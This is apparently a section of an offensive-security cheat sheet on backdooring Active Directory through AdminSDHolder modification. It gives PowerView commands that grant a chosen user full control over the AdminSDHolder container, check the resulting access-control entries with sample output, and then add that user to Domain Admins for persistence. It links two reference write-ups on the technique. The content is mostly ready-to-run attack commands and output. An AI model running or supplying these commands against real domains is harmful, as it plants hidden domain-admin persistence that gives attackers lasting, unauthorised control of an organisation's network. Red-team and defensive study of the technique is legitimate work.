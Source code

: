 

### AdminSDHolder Modification

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
* [https://attack.stealthbits.com/adminsdholder-modification-ad-persistence](https://attack.stealthbits.com/adminsdholder-modification-ad-persistence)


#### Create a Backdoor

Add a new domain user or grant an existent user `GenericAll` permissions for the `AdminSDHolder` container:

```
PowerView3 > Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -TargetDomain megacorp.local -PrincipalIdentity snovvcrash -PrincipalDomain megacorp.local -Rights All -Verbose
```

Check that granting `AdminSDHolder` permissions was successfull (may take 60+ minutes for the security ACLs to get updated for that user):

```
PowerView3 > Get-DomainUser snovvcrash | select objectsid
S-1-5-21-2284550090-1208917427-1204316795-9824

PowerView3 > Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -Domain megacorp.local -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "S-1-5-21-2284550090-1208917427-1204316795-9824"}

AceType               : AccessAllowed
ObjectDN              : CN=AdminSDHolder,CN=System,DC=megacorp,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             :
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2284550090-1208917427-1204316795-9824
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

Now you can add yourself (the "snovvcrash" user) to the Domain Admins group any time and do stuff (actually adding the user to Domain Admins every time is not necessary, as the `AdminCount` attribute will stay `1` anyways after adding the backdoor user to a protected group for the first time):

```
PowerView3 > Add-DomainGroupMember -Identity "Domain Admins" -Members snovvcrash
PowerView3 > Get-DomainObjectAcl -Identity "Domain Admins" -Domain megacorp.local -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "S-1-5-21-2284550090-1208917427-1204316795-9824"}

AceType               : AccessAllowed
ObjectDN              : CN=Domain Admins,CN=Users,DC=megacorp,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2284550090-1208917427-1204316795-512
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
```